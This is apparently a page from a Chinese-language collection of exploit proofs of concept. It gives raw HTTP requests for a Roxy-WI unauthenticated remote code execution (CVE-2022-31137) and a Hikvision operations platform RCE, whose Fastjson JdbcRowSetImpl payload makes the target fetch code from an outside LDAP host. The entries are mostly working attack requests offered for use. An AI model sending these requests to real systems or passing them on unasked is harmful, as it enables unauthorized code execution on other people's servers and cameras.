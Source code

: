 ```
Here the documentation used latest nites:
* https://clouddocs.f5.com/api/icontrol-rest/ 

HTTP hop_by_hop request headers: 
* https://portswigger.net/research/top-10-web-hacking-techniques-of-2019-nominations-open

# Author
Alex Hernandez aka @_alt3kx_
```





## Roxy-WI 未经身份验证的远程代码执行

参考来源[《Advisory | Roxy-WI Unauthenticated Remote Code Executions CVE-2022-31137》](https://www.iculture.cc/?golink=aHR0cHM6Ly9wZW50ZXN0LmJsb2cvYWR2aXNvcnktcm94eS13aS11bmF1dGhlbnRpY2F0ZWQtcmVtb3RlLWNvZGUtZXhlY3V0aW9ucy1jdmUtMjAyMi0zMTEzNy8=)

```
POST /app/options.py HTTP/1.1
Host: 192.168.56.116
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: https://192.168.56.114
Dnt: 1
Referer: https://192.168.56.114/app/login.py
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

alert_consumer=notNull&serv=roxy-wi.access.log&rows1=10&grep=&exgrep=&hour=00&minut=00&hour1=23&minut1=45
```





## 海康威视综合运营管理平台RCE漏洞

```
POST /bic/ssoService/v1/applyCT HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 188

{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://xxx.dnstunnel.run","autoCommit":true}}
```
